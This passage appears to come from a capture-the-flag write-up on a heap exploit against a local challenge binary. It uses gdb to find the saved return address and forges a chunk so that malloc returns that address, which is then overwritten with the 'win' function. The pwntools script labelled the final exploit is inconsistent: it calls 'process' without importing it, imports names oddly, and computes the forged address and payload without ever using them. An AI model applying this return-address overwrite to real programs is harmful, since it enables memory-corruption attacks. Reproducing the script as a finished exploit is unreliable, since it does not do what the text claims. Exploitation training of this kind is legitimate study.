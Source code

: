 `info frame` will then display where the return pointer (saved RIP) is located for the `menu_loop` stack frame.

![](/Assets/Pasted%20image%2020241005121826.png)

Here, it is at `0x7fffffffdda8`. 

We can subtract the address of choice (`0x7fffffffdd8f`) from `0x7fffffffdda8` to get the offset between choice and the return address (being `25` bytes). Even though ASLR is enabled, the offset between these locations will remain constant for each execution of the program, meaning we can predictably locate the target return address every time.

We can therefore calculate the address of `menu_loop`'s return address and store it in `forged_chunk` instead of `0xdeadbeef`.

```python
forged_chunk = choice_addr + 25
```

This means that malloc will now return the address of the return address of `menu_loop` in the final `create_note` call, so all that's left is to overwrite it to the address of the `win` function.

Since we have loaded the binary into memory, we can use `pwntools` to get the address of `win`, and store it in `written_data` instead of 'whatever'.

```python
written_data = p64(target.sym['win'])
```

Our final exploit now looks like this:

```python
from pwn import target, ELF, p64, PTY

target = ELF('./chal')
io = process(target.path, stdin=PTY, stdout=PTY)

def create_note(data: bytes):
	io.recvuntil(b'> ')
	io.sendline(b'2')
	io.recvuntil(b': ')
	io.sendline(data)

def delete_note(index: int):
	io.recvuntil(b'> ')
	io.sendline(b'4')
	io.recvuntil(b': ')
	io.sendline(str(index).encode('utf-8'))

io.recvuntil(b'0x')
choice_addr_hex = io.recvline()[:-1].decode('utf-8')
choice_addr = int(choice_addr_hex, 16)

forged_chunk = choice_addr + 25
written_data = p64(target.sym['win'])

create_note(b'whatever')
delete_note(0)
```